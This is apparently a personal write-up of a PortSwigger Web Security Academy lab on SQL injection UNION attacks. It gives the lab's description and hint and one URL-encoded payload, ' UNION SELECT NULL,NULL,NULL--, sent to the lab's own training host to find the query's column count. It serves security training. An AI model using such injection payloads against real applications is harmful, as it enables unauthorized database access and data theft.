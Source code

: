 ```yaml
---
title: 'Lab: SQL injection UNION attack, determining the number of columns returned by the query'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: SQL injection UNION attack, determining the number of columns returned by the query
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack. 
* Hint: To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.


#### Exp
Payload: `https://0ab2008b04e96b8f8057358e008d00d0.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--`
:::spoiler Success Screenshot
![](https://i.imgur.com/yZ3QPPF.png)
:::


## Reference